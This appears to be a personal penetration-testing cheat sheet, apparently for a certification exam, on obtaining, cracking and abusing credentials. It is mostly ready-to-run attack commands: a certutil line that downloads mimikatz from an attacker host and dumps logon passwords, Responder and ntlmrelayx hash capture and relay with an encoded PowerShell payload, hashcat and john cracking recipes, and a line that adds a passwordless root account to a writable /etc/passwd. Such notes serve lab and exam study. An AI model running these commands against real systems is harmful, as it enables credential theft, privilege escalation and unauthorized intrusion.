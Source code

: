 # Get
Run mimikatz non-interactively:
```powershell
cd \Users\Public ; certutil.exe -urlcache -split -f "http://192.168.45.182:8001/mimikatz.exe"; .\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

##### Forced authentication
Does not require high privileges, aquires NTLMv2 Hashes.
You need to connect to your kali with SMB to get the NTLMv2 hashes. For example by abusing a web application on the target or with `dir \\$tip\test` executed on it.
```bash
sudo responder -A -I tun0
```
> Do not forget the `-A`, otherwise responder could use features that are not allowed in the exam!

NTLMv2 contains a timestamp, but uncrackable hashes can still be relayed if the relayed user is local admin on the target or the latter has UAC remote restrictions disabled:
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $hip -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

Get from the User-Files
```bash
grep --include "9_*" "Hash: " ./* 2>/dev/null | rev | cut -d " " -f1 | rev >> hashes.ntlm
```
# Convert
passwd -> john
```
unshadow passwd shadow > unshadowed.hash
```
SSH Key -> john
```bash
ssh2john $file > id_rsa.hash
```

# Crack
#### John
```
john --wordlist=/usr/share/wordlists/rockyou.txt $file
```

Use "--format=crypt" if the unshadowed has "y" as algorithm

For LM Hashs:
2. Run john with `--format=LM --show` and without attack type (e.g. wordlist). It will identify 2 hashes per lines, bc LM hashes can be cracked partly. Also, if it displays `????`, this part of the LM wasn't cracked yet. But it needs to.
3. Figure out capitalization of password. I've created a script to get that using the NTML Hash (did I ever test it?...). Alternatively, create wordlist file with only the found password canidate in uppercase. Run john with `--rules --format=NT --wordlist=` to get the password correctly capitalized. ![[checkLMagainstNTLM.py]]
EAP-MSCHAPV2 (WPA2-MGT)
```
sudo john --format=netntlm -w /usr/share/john/password.lst hashes.txt
```

#### Hashcat
Kerberos AS-REP
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
Kerberos TGS-REP
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLM Hash
```bash
sudo hashcat -m 1000 hashes.ntlm /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLMv2 Hash
```bash
sudo hashcat -m 5600 hashes.ntlmv2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NT Hash
```bash
hashcat -a 3 -m 900 --encoding-to utf16le NTHashes.txt
```


#### If set through GPP
```bash
gpp-decrypt "$hash"
```
#### If unsalted
https://crackstation.net/

# Exploit
If `/etc/passwd` is writeable
```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
Or with acutal credential
```bash
openssl passwd -1 -salt dummy dummy
```

# Identify
Hashes
`hashid $hash`
`hash-identifier`

Find credentials in source code
`~/Documents/activeInformationGathering/trufflehog filesystem --no-verification $path`
#### Windows
| | | | | 
|-|-|-|-|
| $Administrator:$|$500:$|$NO PASSWORD*********************:$|$BE134K40129560B46534340292AF4E72:::$|
|USER     |UID|            LM Hash             |     NT Hash (also called NTLM)|


CrackStation -> RockYou.txt (john)



#### Linux
| | | | | |
|-|-|-|-|-|
|root:|\$6|\$IodYKEbO|\$5TglyZFgGW72oeW0Ql/9Wt7KwW2XWeW3TNmBUo94Qsj1tJg.tDs1HIuIlmyr/:|18251:0:99999:7:::|
|user| $*$|  Salt  |                     Hashed Password                         | Account Information|

|$(*)$|Algorithm|Hashcat|
|-|-|-|
|$1$  |MD5 |500|
|$2a$|Blowfish|3200|
|$2y$|Blowfish|
|$5$|SHA-256|7400|
|$6$|SHA-512|1800|

